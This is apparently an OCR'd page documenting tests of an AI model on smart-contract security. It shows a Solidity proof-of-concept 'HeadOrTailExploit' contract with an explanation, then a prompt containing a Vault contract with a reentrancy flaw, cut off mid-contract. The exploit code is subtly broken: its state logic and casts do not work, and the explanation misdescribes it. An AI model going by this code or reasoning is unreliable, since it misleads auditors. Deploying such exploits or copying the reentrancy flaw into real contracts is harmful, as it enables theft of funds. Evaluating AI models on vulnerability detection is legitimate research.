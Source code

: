 

```solidity
pragma solidity ^0.8.0;
 
contract HeadOrTailExploit {
    bool public chosen; // True if the choice has been made.
    bool public lastChoiceIsHead; // True if the choice is head.
    address public lastParty; // The last party who chose.
 
    constructor(address targetContract) {
        HeadOrTail victimContract = HeadOrTail(targetContract);
 
        // Choose Head first
        victimContract.choose(true);
    }
 
    // Attacker guesses the same as the last choice of the victim
    function guess(bool guessHead) external payable {
        require(chosen, "Choice not made yet");
        require(msg.value == 1 ether, "Incorrect payment amount");
 
        HeadOrTail victimContract = HeadOrTail(msg.sender);
        (bool success,) = (guessHead == victimContract.lastChoiceIsHead ? msg.sender : lastParty).call{value: 2 ether}("");
        require(success, "Transfer failed");
        chosen = false;
    }
}

```

The attack contract exploits the constructor to call the target contract's choose function upon deployment of the attack contract, selecting Head first. Then, the attacker uses the guess function to guess the same option as the last choice of the target contract, thus having a higher probability of winning in the gambling game.

Please note that this is just a sample PoC attack code, and there might be other ways to exploit this vulnerability. Writing secure smart contracts is a complex task that requires thorough testing and review to avoid potential vulnerabilities.

### Test4

#### Prompt：

Is there any vulnerability in the following smart contract? If there is, write a Solidity-based proof of concept(PoC):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
/// @dev Contract managing the storage and redemption of ETH.
contract Vault {
    mapping(address => uint256) public balances;
 
    /// @dev Stores the ETH of the sender in the contract.
    function store() external payable {
        balances[msg.sender] += msg.value;
    }
 
    /// @dev Redeems the ETH of the sender in the contract.
    function redeem() external {
        (bool success,) = msg.sender.call{value: balances[msg.sender]}("");
        require(success, "Transfer failed");
        balances[msg.sender] = 0;
    }
```